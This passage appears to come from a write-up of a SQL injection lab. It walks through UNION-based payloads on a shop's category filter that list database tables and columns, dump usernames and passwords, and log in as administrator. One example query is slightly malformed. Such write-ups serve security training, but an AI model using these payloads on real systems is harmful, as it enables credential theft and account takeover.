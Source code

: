 ![image](https://github.com/user-attachments/assets/7802f6b1-3566-4a45-979a-fcdfffcd92f7)


### Determine wich column contains text data

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' SELECT 'abc','def'--
```
Both the columns contain text data.

![image](https://github.com/user-attachments/assets/90208163-fc2b-4161-8b1b-0f4c750b57f9)

 Response

![image](https://github.com/user-attachments/assets/054c619a-4eda-4407-ad5c-00eecac98146)

3. **List Table Names**
   - Query the `information_schema.tables` to retrieve table names:
     - Payload: `/filter?category=Gifts'+union+all+select+'1',TABLE_NAME+from+information_schema.tables--`
     - This returns a list of table names in the database.
    
       ![image](https://github.com/user-attachments/assets/76e3aeb0-02df-4fb6-9d80-7866e7ff9166)

      ![image](https://github.com/user-attachments/assets/e7f9898f-8d13-4a21-a9cc-ab67cf58dcab)

4. **List Columns in the `users_vptjgu` Table**
   - Query the `information_schema.columns` to retrieve column names for the `users_vptjgu` table:
     - SQL Query: `SELECT * FROM information_schema.columns WHERE table_name = 'users_vptjgu'`
     - Payload: `/filter?category=Gifts'+union+all+select+'1',COLUMN_NAME+from+information_schema.columns+WHERE+table_name+=+'users_vptjgu'--`
     - Result: Two columns identified:
       - `username_lvfons`
       - `password_femvin`
      
         ![image](https://github.com/user-attachments/assets/3fccadc8-537e-4f3e-bf84-3052c0fcb2bc)


5. **Retreive information from the columns username_lvfons anmd password_femvin from the `users_vptjgu` Table**
   - Retrieve the contents of the `username_lvfons` and `password_femvin` columns:
     - SQL Query: `SELECT username_lvfons, password_femvin FROM users_vptjgu`
     - Payload: `/filter?category=Gifts'+union+all+select+username_lvfons,password_femvin+from+users_vptjgu--`
     - This payload dumps the usernames and passwords from the `users_vptjgu` table.

   Now we get the username and password of all users.

 ![image](https://github.com/user-attachments/assets/f7682d5a-779b-45f1-9b57-a4f8ffbb595d)

   Now login as administrator,

   ![image](https://github.com/user-attachments/assets/a0dffe6b-76b9-45a2-bf5b-4f4d5504d99e)
